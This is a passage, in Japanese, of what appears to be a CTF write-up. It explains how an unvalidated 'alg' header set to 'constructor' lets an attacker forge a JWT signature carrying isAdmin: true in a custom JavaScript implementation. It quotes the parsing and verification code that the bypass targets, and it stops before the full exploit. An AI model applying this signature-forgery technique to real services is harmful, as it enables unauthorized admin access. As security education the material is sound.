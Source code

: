 ここで、`alg`の値が検証されていないことに着目します。`alg`に`constructor`を指定すると、`alg['constructor']`すなわち`Object.prototype.constructor`を署名関数として使うことができます。

このとき署名は`Object.prototype.constructor`の返り値となりますが、`Object.prototype.constructor`の返り値は第一引数`data`のみで決まるため、`secret`を知らなくても署名を偽造できそうです。

ところが、この手法で愚直に生成した署名は次のようになります。

```js
stringifyPart({ typ: 'JWT', alg: 'constructor' });
// => eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9

stringifyPart({ isAdmin: true });
// => eyJpc0FkbWluIjp0cnVlfQ

createSignature({ typ: 'JWT', alg: 'constructor' }, { isAdmin: true }, '');
// => eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ
```

署名にピリオドが含まれてしまいました。したがって、JWTの値は次のようになります。

```js
jwt.sign('constructor', { isAdmin: true }, '');
// => eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ
```

このJWTにはピリオドが3つあるため、このままでは検証時のパースで弾かれてしまいます。

```js
const parseToken = (token) => {
  const parts = token.split('.');
  if (parts.length !== 3) throw Error('Invalid JWT format');

  // 中略
};
```

そこで、署名検証の実装が「クライアントから送信された署名をBase64デコードしたものと、サーバー側で再計算した署名をBase64デコードしたものが一致するか」であることに着目します。

```js
const verify = (token, secret) => {
  const { header, payload, signature: expected_signature } = parseToken(token);

  const calculated_signature = createSignature(header, payload, secret);

  const calculated_buf = Buffer.from(calculated_signature, 'base64');
  const expected_buf = Buffer.from(expected_signature, 'base64');

  if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
    throw Error('Invalid signature');
  }

  return payload;
};
```
